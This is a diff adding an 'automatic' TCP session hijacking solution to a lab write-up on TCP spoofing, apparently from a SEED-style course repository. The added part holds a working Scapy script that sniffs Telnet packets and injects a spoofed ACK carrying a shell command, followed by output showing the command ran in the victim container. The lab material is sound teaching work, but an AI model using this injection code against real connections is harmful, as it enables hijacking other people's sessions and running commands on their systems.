

Before and after one commit to ProSecCorp/Ethical-hacking, a Markdown page: 02 - TCPSpoofing/solution.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Revise TCP hijacking instructions and code examples
Updated instructions for hijacking TCP connections, including code changes for manual and automatic methods. Changed file paths and added notes for clarity.

````diff
--- a/02 - TCPSpoofing/solution.md
+++ b/02 - TCPSpoofing/solution.md
@@ -249,6 +249,55 @@ Also the client lost the synchronization of the SEQ and ACK numbers with the ser
 
 # Automatic
 
+Remember to change the interface. Run the code after the Telnet login to the victim.
+
+```py
+#!/usr/bin/env python3
+from scapy.all import *
+
+stop_sniffing = False
+
+
+def hijack(pkt):
+    if pkt.haslayer(IP) and pkt.haslayer(TCP) and pkt[TCP].dport==23:
+        global stop_sniffing
+        src_add = pkt[IP].src
+        dst_add = pkt[IP].dst
+        ip = IP(src=src_add, dst=dst_add)
+
+        sp = pkt[TCP].sport
+        seq_n = pkt[TCP].seq
+        ack_n = pkt[TCP].ack
+        payload_l = len(pkt[TCP].payload)
+        tot_seq = seq_n+payload_l
+        tcp = TCP(sport=sp, dport=23, flags="A", seq=tot_seq, ack=ack_n)
+        data = "echo nano > /home/seed/autoHacked.txt \r\n"
+        pkt = ip/tcp/data
+
+        send(pkt,verbose=0)
+
+        print(f"Sent ACK packet from {src_add}:{sp} to {dst_add}:23 with data={data}")
+
+        stop_sniffing = True
+
+def check_stop(pkt):
+    global stop_sniffing
+
+    return stop_sniffing
+
+pkt = sniff(iface ='br-774a3b00e93c', filter ='tcp', prn=hijack, stop_filter = check_stop)
+```
+
+### Results
+
+We can see that the command was successfully ran on the victim's system.
+
+```bash
+seed@VM:~/.../volumes$ docker exec -it victim-10.9.0.5 /bin/bash
+root@abb6db62e897:/# ls /home/seed
+autoHacked.txt
+```
+
 # TASK 4
 
 For the last task we want to refer to some of the steps we used in task 3.
````
Also changed, not shown: other parts of 02 - TCPSpoofing/solution.md (+3 -3 lines).
